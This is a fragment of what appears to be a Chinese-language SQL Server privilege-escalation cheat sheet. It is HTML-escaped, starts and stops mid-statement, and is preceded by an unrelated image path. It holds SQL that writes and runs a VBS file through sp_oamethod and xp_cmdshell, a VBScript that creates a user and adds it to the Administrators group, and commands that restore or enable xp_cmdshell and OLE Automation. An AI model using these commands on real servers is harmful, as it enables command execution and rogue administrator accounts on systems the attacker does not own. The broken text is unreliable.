 '<br />exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&amp;&quot;/test&quot;,user) '<br />exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&amp;&quot;/test&quot;'<br />exec master..xp_cmdshell 'cscript c:1.vbs'<br /><br />无NET提权的脚本<br />struser=wscript.arguments(0)<br />strpass=wscript.arguments(1)<br />set lp=createObject(&quot;WSCRIPT.NETWORK&quot;)<br />oz=&quot;WinNT://&quot;&amp;lp.ComputerName<br />Set ob=GetObject(oz)<br />Set oe=GetObject(oz&amp;&quot;/Administrators,group&quot;)<br />Set od=ob.create(&quot;user&quot;,struser)<br />od.SetPassword strpass<br />od.SetInfo<br />Set of=GetObject(oz&amp;&quot;/&quot; &amp; struser &amp; &quot;,user&quot;)<br />oe.Add(of.ADsPath)<br />For Each admin in oe.Members<br />if struser=admin.Name then<br />Wscript.echo struser &amp; &quot; 建立成功!&quot;<br />wscript.quit<br />end if<br />Next<br />Wscript.echo struser &amp; &quot; 用户建立失败!&quot;<br />将以上保存为user.VBS文件<br />然后执行：cscript user.vbs 用户名 密码<br /><br />=======================================================================<br />恢复xp_cmdshell<br />exec sp_dropextendedproc 'xp_cmdshell'<br />EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int<br />=======================================================================<br />开启xp_cmdshell<br />USE master<br />EXEC sp_configure 'show advanced options', 1<br />RECONFIGURE WITH OVERRIDE<br />EXEC sp_configure 'xp_cmdshell', 1<br />RECONFIGURE WITH OVERRIDE<br />EXEC sp_configure 'show advanced options', 0<br />=======================================================================<br />开启Automation Procedures<br />USE master<br />EXEC sp_configure 'show advanced options', 1<br />RECONFIGURE WITH OVERRIDE<br />EXEC sp_configure 'Ole Automation Procedures',1<br />RECONFIGURE WITH OVERRIDE<br />EXEC sp_configur